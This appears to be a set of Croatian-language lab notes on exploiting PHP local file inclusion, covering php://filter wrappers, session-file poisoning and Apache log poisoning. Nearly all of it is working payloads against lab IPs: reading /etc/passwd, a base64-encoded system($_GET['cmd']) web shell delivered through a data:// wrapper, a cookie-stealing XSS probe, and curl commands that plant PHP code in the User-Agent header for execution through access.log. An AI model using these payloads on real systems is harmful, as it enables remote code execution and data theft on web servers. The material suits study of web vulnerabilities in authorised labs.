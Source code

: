 PHP wrappers
stavljamo php da bi se izvrsila php naredba nad nekom datotekom
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/string.tolower/resource=.htaccess

data:text/plain,<?php phpinfo(); ?>
Mozemo poslati i ovakav payload:
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
enkodirani tekst je base64 kodirani php kod koji izgleda ovako: <?php system($_GET['cmd']); echo 'Shell done!'; ?> i sada pri pozivanju u pages, mozemo dodati argument &cmd=id
Primjer:/
http://10.10.86.244/playground.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=id


PHP Session Files
Ovaj exploit se koristi ako imamo stranicu koja izvrsava parametre za dohvacanje, te mozemo  generiarirati datoteku phpinfo() koji ce biti spremljen u datoteci koji je naveden dolje
http://10.10.250.190/sessions.php?page=<?php echo phpinfo(); ?>
http://10.10.250.190/sessions.php?page=/var/lib/php/sessions/sess_[sessionID]

ako zelimo saznati session ID mozemo pogledati PHPSESSID u cookiesima ili napraviti ovakav input
http://10.10.250.190/sessions.php?page=%3Cscript%3Ealert(document.cookie)%3C/script%3E


Log Poisoning
Generalan naziv za tehnike preko kojih korisnik injecta naredbe u log datoteku i onda preko nje forsira njihovo izvršavanje.
Cilj nam je postaviti User-Agent polje da preko ovakve naredbe: curl -A '<?php system($_GET["cmd"]); ?>' IP | curl -H 'User-Agent: <?php system($_GET["cmd"]); ?>' IP
Nakon toga server loga te pokusaje i sada preko ovakvoga requesta mozemo vidjeti sto zelimo: http://10.10.86.244/playground.php?page=/var/log/apache2/access.log&cmd=whoami


